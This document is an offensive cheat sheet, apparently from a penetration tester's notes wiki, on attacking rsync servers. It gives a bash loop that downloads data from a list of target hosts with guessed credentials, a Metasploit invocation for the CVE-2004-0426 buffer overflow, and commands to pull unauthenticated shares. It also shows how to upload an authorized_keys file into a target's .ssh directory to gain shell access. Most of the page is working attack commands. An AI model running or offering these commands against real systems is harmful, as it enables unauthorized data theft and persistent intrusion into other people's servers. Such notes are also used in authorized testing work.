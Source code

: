 ### Rsync Exploit Scripts
- **Tool:** [[Custom Scripts]]
    ```bash
    #!/bin/bash
    for ip in $(cat targets.txt); do
      rsync user@$ip:/path/to/data /local/dir --password-file=/path/to/passfile
    done
    ```
- **Description:** Automating attacks against multiple Rsync servers with known or guessed credentials.

### CVE-2004-0426
- **Tool:** [[Metasploit]]
	```bash
	use exploit/unix/rsync/rsync_long_dirname
	set RHOST <target_ip>
	set RPORT 873
	run
	```
- **Description:** Buffer overflow in Rsync before 2.6.0 allows remote attackers to execute arbitrary code via a long directory name.

### ## Brute force Manual Rsync
- **Tool:** [[RSync]]
	1. **List a shared folder:** Authentication must not be required.
	```bash
	rsync -av --list-only rsync://<target_ip>/target_dir
	```

	2. **Transfer Files Locally:** Copy all files to the local machine.
	```bash
	rsync -av rsync://<target_ip>:873/target_dir ./local_dir
	```

	3. The files are transferred in "archive" mode, which ensures that symbolic links, devices, attributes, permissions, ownerships, etc. are preserved in the transfer. With appropriate credentials you can list/download a shared name using (the password will be prompted):
	```bash
	rsync -av --list-only rsync://username@<target_ip>/target_dir
	
	rsync -av rsync://username@<target_ip>:873/target_dir ./local_dir
	```

	4. You could also upload some content using rsync (for example, in this case we can upload an `authorized_keys` file to obtain access to the box):
	```bash
	rsync -av home_user/.ssh/ rsync://username@<target_ip>/home_user/.ssh
	```

# Resources
